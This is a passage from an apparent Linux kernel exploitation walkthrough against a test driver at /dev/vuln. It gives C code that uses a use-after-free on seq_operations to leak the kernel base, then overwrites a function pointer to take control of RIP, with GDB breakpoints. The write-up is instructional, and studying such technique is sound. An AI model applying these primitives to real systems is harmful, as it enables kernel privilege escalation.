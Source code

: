 #### Leaks

With UAF in place, we can now leak data from the seq_operations structure using `USE_READ`. Since this structure contains function pointers, we can use a known offset to calculate the kernel base address.

Using GDB and the `xinfo` command, we can determine the offset to the base:

![img](/images/xinfo.png)

Here’s the leak logic in code:
```c
int main(int argc, char *argv[]) {
    driver_fd = open_dev("/dev/vuln");
    char buf[100] = {0};

    kalloc(0x20);
    kfree();

    int fd = open("/proc/self/stat", O_RDONLY);

    kread(buf);
    uint64_t start_ptr = *(uint64_t *)buf;
    uint64_t kbase = start_ptr - 0x2ba4b0;

    printf("[+] Leaked start pointer: %#lx\n", start_ptr);
    printf("[+] Kernel base: %#lx\n", kbase);
}
```
![img](/images/leaks.png)

#### RIP control

Now that we have both an information leak and a UAF primitive, we can overwrite the start function pointer in the seq_operations structure and gain control over RIP when `read()` is called.

```c
  char payload[8] = {0};
  memset(payload, 'A', 8);
  ioctl(driver_fd, USE_WRITE, payload);
  read(fd, 0, 1);
```
To catch this in GDB, I added this to the end of the gdbscript:

```
b *seq_read_iter+226
c
```

This breakpoint hits just before the call to the start function:
![img](/images/breakpoint.png)

Using `si` to step in:

![img](/images/overflow.png)

